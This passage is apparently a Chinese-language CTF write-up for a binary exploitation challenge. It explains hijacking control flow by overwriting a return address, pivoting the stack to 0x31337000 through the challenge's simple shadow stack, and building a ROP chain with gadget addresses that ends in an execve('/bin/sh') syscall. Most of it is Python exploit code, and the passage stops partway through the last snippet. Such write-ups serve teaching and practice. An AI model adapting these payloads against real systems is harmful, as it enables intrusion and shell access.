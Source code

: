 通过篡改栈上返回地址（或保存在栈底的 rbp）可以实现控制流的劫持，这也是 CHOP 的基本思路。

但是发现题目中没有提供后门函数，事实上现在还是可以 ROP 的，例如通过改返回地址将控制流劫持到 banner 函数中的同时，溢出更多的字节填充到 banner 函数的返回地址后就可以按照普通的栈溢出题来做了。

此外还有一个问题是没有 `"/bin/sh\x00"` 之类的字符串，这里确实可以用常规方法在 ROP 中构造栈迁移，但也可以借助题目中这个简陋的影子栈来完成目标：

1. 完成第一次循环，将返回地址留在 `0x31337000` 上，同时填充 8 字节使迁移后栈对齐：

    ```python
    def send_payload(payload):
        payload_list = [0 for i in range(len(payload) // 8 + 1)]
        for i in range(0, len(payload), 8):
            payload_list[i // 8] = u64_ex((payload[i:])[:8])
        data = b""
        for i in payload_list:
            data += i2b(i)
            data += b" "
        io.send(data + i2b(0x31337) + b"\n")
        io.recvuntil(b"next round has begun.\n")


    io.recvuntil(b"stop reading until I receive the correct one.")
    send_payload(b"a")
    ```

2. 第二次循环中完成栈迁移：

    ```python
    try_addr = 0x0000000000401F0E
    new_stack = 0x31337000
    pop_rdi_ret = 0x0000000000402F7C
    pop_rsi_ret = 0x0000000000404669
    pop_rdx_2_ret = 0x00000000004AF0DB
    pop_rax_ret = 0x0000000000463DA7
    syscall_ret = 0x42EA86
    payload = flat(
        {
            0x00: [0x1111, 0x2222, 0x3333, 0x4444, new_stack],
            0x28: [try_addr + 1, 0xDEADBEEF, 0xCAFECAFE, 0x31337],
        }
    )
    send_payload(payload)
    ```

3. 传入 `"/bin/sh\x00"` 字符串并完成 ROP：

    ```python
    payload = flat(
        {
            0x00: [u64_ex(b"/bin/sh\x00"), 0x2222, 0x3333, 0x4444, new_stack + 0x10],
            0x28: [
                try_addr + 1,
                0x4DE4B0,
                pop_rdi_ret,
                0x31336FE0,
                pop_rsi_ret,
                0,
                pop_rdx_2_ret,
                0x31337010,
                0,
                pop_rax_ret,
                0x3B,
                syscall_ret,
            ],
        }
    )
    send_payload(payload)